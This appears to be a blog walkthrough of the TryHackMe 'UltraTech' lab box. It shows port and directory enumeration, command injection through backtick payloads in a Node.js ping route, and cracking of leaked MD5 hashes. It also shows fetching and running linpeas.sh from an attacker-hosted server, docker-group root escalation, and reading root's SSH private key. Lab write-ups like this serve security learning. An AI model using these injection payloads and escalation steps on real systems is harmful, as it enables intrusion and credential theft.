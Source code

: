 ```yaml
---
layout: post
title: " UltraTech - TryHackMe"
date: 2020-07-15
excerpt: "Walkthrough for UltraTech on TryHackme"
tags: [UltraTech, TryHackMe, node.js API, docker, hash cracking]
comments: false
---
```


UltraTech is a medium difficult box on [TryHackMe](https://www.tryhackme.com). Below are the steps I took to fully compromise this box.

Task 1 just requires deploying the machine, there is no challenge to solve.

### Task 2

First, let's run enumeration, the questions hint that non standard ports are used, so I ran **nmap -p- [machine ip]**. This took a bit to run since it was enumerating all the services on each port over the entire TCP port range. After a while, it returned the following results.

![UltraTech nmap1](/assets/img/UltraTech1.png)

Now lets run **nmap -A -p 21,22,8081,31331,35143 [machine ip]**  to enumerate these services further, which gets you the following information.

![UltraTech nmap2](/assets/img/UltraTech2.png)

We should now be able to answer some of the questions for this task. **Question 1** is shown above, which is node.js. **Question 2** is going to be the port Apache is running on that is not standard, which is the name of the service that answers **Question 3**.

**Question 4** is also in the scan above, which includes the name of the OS.

**Question 5** probably has several ways to figure it out, but I decided to enumerate the website on port 31331 to see what all was there. I enumerated the website with **gobuster dir -u http://[machine ip]:31331 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 50**. Within a few moments, several directories showed up.

![UltraTech gobuster](/assets/img/UltraTech3.png)

Let's start looking at these directories. Since we know node.js is running, let's go to the **/js** directory first. 

![](/assets/img/UltraTech4.png)

This lists 3 different JavaScript files. Let's take a look at api.js.

![UltraTech api.js](/assets/img/UltraTech5.png)

This provides us with the answer to the question related to routes, as this script references port 8081 (where Node.js is setup). The two URLs indicated above are the routes that are in place, so the answer to this question is **2**. The other two files are just JavaScript scripts, and do not reference Node.js at all.

### Task 3

Now that we know the routes, it appears one of them is used for authentication. Let's see if we can figure out how to login. Visiting **http://[machine ip]:8081/auth** tells you you must specify a login and a password. Let's add in these two fields (login and password) to a request and see what happens. Let's use **http://[machine-ip]/auth?login=root&password=root**. It appears this request is in the correct format, as it tells us we're using invalid credentials.

![UltraTech auth](/assets/img/UltraTech6.png)

Next, let's look at the other route of **http://[machine ip]:8081/ping?ip=**. Let's use the backtick here to and enter in another command to see if we can perform command injection. I elected to use **http://[machine ip]:8081/ping?ip=\`whoami\`**.

![UltraTech node.js command injection whoami](/assets/img/UltraTech7.png)

Success! It returned a user of **www**. Next, let's see what's in the current directory with **http://[machine ip]:8081/ping?ip=\`ls\`**.

![UltraTech node.js command injection ls](/assets/img/UltraTech8.png)

This would be the answer to **Question 1** for Task 3.

It appears there is a sqlite database present. Let's view the contents with **http://[machine ip]:8081/ping?ip=\`cat [database name]\`**.

![UltraTech node.js command injection cat](/assets/img/UltraTech9.png)

This provides you with the hashes for two users, **r00t**, and **admin**. The hash for r00t is the answer to **Question 2** for Task 3Let's save their hashes to a text file named **hashes.txt**, one per line and see if we can crack them. Once saved, let's run the following command **john hashes.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt**.

![UltraTech john](/assets/img/UltraTech10.png)

This will give you the credentials for both users. The password for r00t is the answer to **Question 3** for Task 3.

### Task 4

Next,  let's connect with **ssh r00t@[machine ip]** and enter the password we had cracked a few moments ago. The final task wants us to get root's first 9 characters of their private SSH key. Let's spin up a python server locally on our attacker pc with **python3 -m http.server**. From the victim PC, type in **wget http://[attacker machine ip]:8000/linpeas.sh**. Once downloaded, run **chmod +x linpeas.sh** and run it with **./linpeas.sh**.

![UltraTech linpeas.sh](/assets/img/UltraTech13.png)

Right at the very beginning, we find out that r00t is a member of the docker group. We could potentially escalate to root with this by following what is on the [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) site for docker. However, since this machine doesn't have internet access, let's first list what images are available locally with **docker image ls**

![UltraTech docker image ls](/assets/img/UltraTech14.png)

Now, let's modify the command on the GTFOBins site above from docker run -v /:/mnt --rm -it alpine chroot /mnt sh to **docker run -v /:/mnt --rm -it bash chroot /mnt sh**. From here, navigate to the ssh keys folder with root with **cd root, cd .ssh** and **cat id_rsa** to answer **Question 1** for Task 4 and complete this box.

![](/assets/img/UltraTech15.png)
